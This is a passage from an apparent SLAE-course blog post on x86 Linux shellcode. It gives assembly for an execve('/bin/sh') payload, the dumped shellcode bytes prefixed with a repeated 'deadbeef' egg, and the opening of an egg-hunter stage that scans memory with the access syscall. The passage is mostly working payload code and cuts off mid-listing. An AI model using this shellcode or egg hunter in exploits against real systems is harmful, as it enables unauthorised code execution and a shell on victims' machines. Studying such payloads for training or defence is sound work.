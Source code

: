 	push eax		    ; pushing 0 to the stack to be used as NULL pointer
	
	; execve is defined as #define __NR_execve 11 in 
	; /usr/include/i386-linux-gnu/asm/unistd_32.h:
	;
	; system call prototype is: 
  ; int execve(const char *filename, char *const argv[], char *const envp[]);

	
	push 0x68732f2f		; pushing //bin/sh into the stack
	push 0x6e69622f		; the init double / is for alignment purpose

	mov ebx, esp		; pointer to *filename
	push eax		    ; pushing in the stack a pointer to NULL
	mov edx, esp		; I don't care about environment here
	push eax
	mov ecx, esp		; I don't even care about passing arguments to
				          ; my /bin/sh

	mov al, 0xb		; execve = 11
	int 0x80
{% endhighlight %}

After having compiled the assembler source file with compile.sh script shell, I
used scdump.sh script to dump the shellcode.

{%highlight sh%}
"\xef\xbe\xad\xde\xef\xbe\xad\xde\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"
{%endhighlight%}

This will be our default payload to be executed when the EGG it has been found
in memory. Now, let's have a look to our egg hunter implementation.

{% highlight assembly %}
; Filename: 	egghunter.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Blog post:  	https://codiceinsicuro.it/slae/
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	This is the first stage of our payload. An egg-hunter shellcode
;		looping through memory and jumping on the payload after the
;		second egg found in memory.

global _start			

section .text

_start:

	xor ecx, ecx
	mul ecx

next_page:
	or dx, 0xfff

next_addr:
	; EDX is 4096 here, that is the value of PAGE_SIZE constant
	inc edx

	; EBX is our memory cursor
	lea ebx, [edx+0x4]

	xor eax, eax

	; access is defined as #define __NR_acces 33 in 
	; /usr/include/i386-linux-gnu/asm/unistd_32.h:
	;
	; system call prototype is: 
	; int access(const char *pathname, int mode);
